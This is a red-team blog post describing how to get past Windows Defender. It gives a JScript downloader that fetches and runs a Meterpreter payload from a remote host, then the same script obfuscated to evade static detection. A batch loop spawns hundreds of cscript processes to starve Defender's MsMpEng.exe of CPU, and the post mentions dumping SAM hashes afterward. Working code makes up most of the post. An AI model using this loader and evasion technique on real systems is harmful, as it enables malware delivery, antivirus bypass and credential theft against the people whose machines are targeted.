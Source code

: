 ```yaml
---
title: Starving Defender – Bypass AV by flooding CPU via MsMpEng.exe 
date: 2025-07-12 +/-TTTT
categories: [REDTEAM]
tags: [evasion,meterpreter]
---
```


## JS Launcher

This is a quick, dirty, and very loud method of bypassing Windows Defender. Note that the Meterpreter payload will touch the disk in this scenario. I wanted to demonstrate an absurdly easy way of walking through Defender’s doors.

To download a Meterpreter payload to the disk, we will use `cscript.exe` by creating a `downloader.js` file and double-clicking it.

```js
var url = "http://10.8.8.8/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200) {
    var Stream = WScript.CreateObject('ADODB.Stream');
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;
    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

Both the JS script and the downloaded Meterpreter payload are detected statically before execution.

The first problem can be solved by using a public JS obfuscator, such as https://obfuscator.io/.

The resulting script will look like this:

```js
var _0x17d249=_0x1fcc;(function(_0x8d99f4,_0x5b012c){var _0x2cbcff=_0x1fcc,_0x176630=_0x8d99f4();while(!![]){try{var _0x516bb3=-parseInt(_0x2cbcff(0x1f5))/0x1+-parseInt(_0x2cbcff(0x1ec))/0x2+-parseInt(_0x2cbcff(0x1e5))/0x3*(parseInt(_0x2cbcff(0x1f2))/0x4)+parseInt(_0x2cbcff(0x1e7))/0x5+-parseInt(_0x2cbcff(0x1e6))/0x6*(-parseInt(_0x2cbcff(0x1f3))/0x7)+parseInt(_0x2cbcff(0x1ef))/0x8+-parseInt(_0x2cbcff(0x1ea))/0x9*(-parseInt(_0x2cbcff(0x1f1))/0xa);if(_0x516bb3===_0x5b012c)break;else _0x176630['push'](_0x176630['shift']());}catch(_0x444b68){_0x176630['push'](_0x176630['shift']());}}}(_0x4958,0x52d5f));var url=_0x17d249(0x1f8),Object=WScript[_0x17d249(0x1e4)]('MSXML2.XMLHTTP');Object['Open'](_0x17d249(0x1f6),url,![]),Object['Send']();if(Object[_0x17d249(0x1e8)]==0xc8){var Stream=WScript['CreateObject'](_0x17d249(0x1ee));Stream[_0x17d249(0x1f0)](),Stream[_0x17d249(0x1e9)]=0x1,Stream[_0x17d249(0x1f4)](Object[_0x17d249(0x1f9)]),Stream[_0x17d249(0x1eb)]=0x0,Stream[_0x17d249(0x1f7)]('met.exe',0x2),Stream['Close']();}var r=new ActiveXObject(_0x17d249(0x1fa))[_0x17d249(0x1ed)]('met.exe');function _0x1fcc(_0x5aab95,_0x3af232){var _0x495812=_0x4958();return _0x1fcc=function(_0x1fcc18,_0xbf485){_0x1fcc18=_0x1fcc18-0x1e4;var _0xf5897c=_0x495812[_0x1fcc18];return _0xf5897c;},_0x1fcc(_0x5aab95,_0x3af232);}function _0x4958(){var _0x88af5=['174024sBDVKk','6aCgHFV','2711895TrvrLm','Status','Type','9307413HbmAyM','Position','792432hvPFro','Run','ADODB.Stream','470216MBGiiE','Open','10fGQDlo','36dgRipP','779387TmqUOV','Write','489071HUhQcm','GET','SaveToFile','http://10.8.8.8/met.exe','ResponseBody','WScript.Shell','CreateObject'];_0x4958=function(){return _0x88af5;};return _0x4958();}
```

Save it on the desktop as `obf.js` and attempt to execute it.

Once again, the downloaded Meterpreter payload is detected, but this time, the JS script (obf.js) is not removed by Windows Security.


## Overloading the CPU

![Cat](https://i.imgur.com/CseMH1H.jpeg)

To successfully execute Meterpreter with this technique, we need to spam multiple `cscript.exe` processes running our `obf.js` script, which will exhaust the CPU due to Defender's `MsMpEng.exe` process.

This time, we will create a separate `launcher.bat` script that spawns multiple instances of our malicious JS payload execution via a for loop.

```bat
@echo off
for /l %%i in (1,1,500) do (
    cscript //nologo obf.js
)
```

We can execute this batch script multiple times and wait a few seconds.

<div style="text-align: center;">
  <video width="640" height="360" controls>
    <source src="https://i.imgur.com/Cr8xbD4.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

After a while, the Meterpreter session will terminate, but as shown in the video, there is still enough time to perform migration, dump hashes from the SAM database, and more.

---


